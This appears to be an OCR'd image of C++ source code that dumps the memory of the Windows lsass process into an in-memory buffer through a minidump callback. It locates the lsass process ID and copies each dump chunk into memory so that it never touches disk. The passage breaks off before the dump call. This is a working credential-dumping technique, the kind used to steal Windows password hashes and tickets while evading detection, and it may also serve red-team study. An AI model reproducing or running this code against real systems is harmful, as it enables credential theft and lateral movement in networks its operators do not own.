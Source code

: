 ```cpp
{
	LPVOID destination = 0, source = 0;
	DWORD bufferSize = 0;

	switch (callbackInput->CallbackType)
	{
		case IoStartCallback:
			callbackOutput->Status = S_FALSE;
			break;

		// Gets called for each lsass process memory read operation
		case IoWriteAllCallback:
			callbackOutput->Status = S_OK;
			
			// A chunk of minidump data that's been jus read from lsass. 
			// This is the data that would eventually end up in the .dmp file on the disk, but we now have access to it in memory, so we can do whatever we want with it.
			// We will simply save it to dumpBuffer.
			source = callbackInput->Io.Buffer;
			
			// Calculate location of where we want to store this part of the dump.
			// Destination is start of our dumpBuffer + the offset of the minidump data
			destination = (LPVOID)((DWORD_PTR)dumpBuffer + (DWORD_PTR)callbackInput->Io.Offset);
			
			// Size of the chunk of minidump that's just been read.
			bufferSize = callbackInput->Io.BufferBytes;
			bytesRead += bufferSize;
			
			RtlCopyMemory(destination, source, bufferSize);
			
			printf("[+] Minidump offset: 0x%x; length: 0x%x\n", callbackInput->Io.Offset, bufferSize);
			break;

		case IoFinishCallback:
			callbackOutput->Status = S_OK;
			break;

		default:
			return true;
	}
	return TRUE;
}

int main() {
	DWORD lsassPID = 0;
	DWORD bytesWritten = 0;
	HANDLE lsassHandle = NULL;
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	LPCWSTR processName = L"";
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);

	// Get lsass PID
	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
		printf("[+] lsass PID=0x%x\n",lsassPID);
	}

```